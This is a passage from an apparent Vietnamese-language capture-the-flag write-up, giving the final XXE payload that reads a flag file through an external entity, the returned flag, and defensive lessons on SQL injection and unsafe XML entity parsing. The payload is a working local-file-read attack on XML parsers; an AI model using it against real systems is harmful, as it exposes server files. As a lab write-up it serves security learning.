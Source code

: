 
## **5. Exploit / Payload Cuối cùng**

Nội dung XML sau đã được lưu dưới dạng `payload.xml` và tải lên trình phân tích XML để lấy flag:

XML
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///var/www/html/flag.txt"> ]>
<data>&xxe;</data>
```

Phản hồi của máy chủ chứa flag: `QnQSec{sql1+XXE_1ng3tion_but_using_php_filt3r}`.

---

## **6. Bài học Kinh nghiệm**

- **Bài học 1:** Không bao giờ tin tưởng vào đầu vào của người dùng. Việc thiếu các câu lệnh đã được chuẩn bị trong biểu mẫu đăng nhập là một lỗ hổng cổ điển, có mức độ nghiêm trọng cao, ngay lập tức tạo ra một điểm tựa ban đầu.
- **Bài học 2:** Việc kích hoạt phân tích thực thể trong một thư viện XML (`LIBXML_NOENT`) gần như luôn là một rủi ro bảo mật và nên là mục tiêu kiểm tra hàng đầu trong bất kỳ cuộc đánh giá web nào.
- **Bài học 3:** Bối cảnh là rất quan trọng. Khi các đường dẫn tệp tiêu chuẩn như `/flag.txt` không hoạt động, việc xem xét các tệp cấu hình như `Dockerfile` có thể cung cấp vị trí chính xác của tệp mục tiêu, tiết kiệm thời gian đáng kể.
